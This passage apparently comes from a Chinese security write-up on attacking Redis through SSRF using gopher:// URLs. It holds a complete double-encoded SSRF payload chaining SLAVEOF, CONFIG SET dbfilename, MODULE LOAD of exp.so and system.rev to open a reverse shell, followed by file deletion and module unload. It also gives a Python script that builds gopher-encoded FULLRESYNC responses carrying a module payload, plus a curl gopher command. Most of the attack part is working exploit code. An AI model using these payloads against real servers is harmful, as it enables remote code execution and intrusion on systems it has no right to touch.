 ![/data/typora_assets/redis/20200720123201391.png](https://i.loli.net/2020/07/24/zuyqRw4IQxMZ5hO.png)

然后利用ssrf漏洞测试也成功触发，记得要对gopher://协议进行特殊字符的url编码，比如%，因为这是经过了两个协议（先http后gopher）
```http
http://localhost/vuln/ssrf.php?test=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%247%250d%250aSLAVEOF%250d%250a%249%250d%250a127.0.0.1%250d%250a%244%250d%250a2333%250d%250a%2A4%250d%250a%246%250d%250aCONFIG%250d%250a%243%250d%250aSET%250d%250a%2410%250d%250adbfilename%250d%250a%246%250d%250aexp.so%250d%250a%2A3%250d%250a%246%250d%250aMODULE%250d%250a%244%250d%250aLOAD%250d%250a%248%250d%250a.%2Fexp.so%250d%250a%2A3%250d%250a%247%250d%250aSLAVEOF%250d%250a%242%250d%250aNO%250d%250a%243%250d%250aONE%250d%250a%2A3%250d%250a%2410%250d%250asystem.rev%250d%250a%249%250d%250a127.0.0.1%250d%250a%244%250d%250a3000%250d%250a%2A4%250d%250a%246%250d%250aCONFIG%250d%250a%243%250d%250aSET%250d%250a%2410%250d%250adbfilename%250d%250a%248%250d%250adump.rdb%250d%250a%2A2%250d%250a%2411%250d%250asystem.exec%250d%250a%2411%250d%250arm%20.%2Fexp.so%250d%250a%2A3%250d%250a%246%250d%250aMODULE%250d%250a%246%250d%250aUNLOAD%250d%250a%246%250d%250asystem%250d%250a
```

我们尝试一下不用redis rogue server，直接发包`FULLRESYNC`可不可以成功，首先要抓到`FULLRESYNC`流量，也就是redis master与redis slave通信流量，我们采用python程序进行生成，
```python
import binascii
from optparse import OptionParser

if __name__ == "__main__":
    parser = OptionParser()
    parser.add_option("-f", "--exp", dest="exp", type="string", help="Redis Module to load, default exp.so", default="exp.so", metavar="EXP_FILE")

    (options, args) = parser.parse_args()
    exp_filename = options.exp
    print("Load the payload: %s" % exp_filename)

    CRLF = "\r\n"
    gopher_resp = ''

    payload = open(exp_filename, "rb").read()
    fullresync_resp = "+FULLRESYNC " + "Z" * 40 + " 1" + CRLF
    fullresync_resp += "$" + str(len(payload)) + CRLF
    fullresync_resp = fullresync_resp.encode()
    fullresync_resp += payload + CRLF.encode()
    # for test, success
    # fullresync_resp = b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
    print(fullresync_resp)
    for i in fullresync_resp:
        if 48 <= i < 58 or 65 <= i < 91 or 97 <= i < 123:  # [0-9|A-Z|a-z]
            gopher_resp += binascii.unhexlify(hex(i)[2:]).decode()
        # urlencode
        elif 1 == len(hex(i)[2:]):
            gopher_resp += '%0' + hex(i)[2:]
        elif 2 == len(hex(i)[2:]):
            gopher_resp += '%' + hex(i)[2:]
        else:
            print('[!] error')
    print(gopher_resp)
```
先测试一下`CONFIG SET dbfilename exp.so`这种普通命令是否可行，
```shell
/usr/bin/python3.6 /home/xiaopo/python/POC/redis/fullresync_packet.py -f redis-rce/exp.so
Load the payload: redis-rce/exp.so
b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
%2a4%0d%0a%246%0d%0aCONFIG%0d%0a%243%0d%0aSET%0d%0a%2410%0d%0adbfilename%0d%0a%246%0d%0aexp%2eso%0d%0a

# xiaopo @ fht in ~/python/POC/ssrf [20:32:14] 
$ curl -v 'gopher://127.0.0.1:6379/_%2a4%0d%0a%246%0d%0aCONFIG%0d%0a%243%0d%0aSET%0d%0a%2410%0d%0adbfilename%0d%0a%246%0d%0aexp%2eso%0d%0a'
```
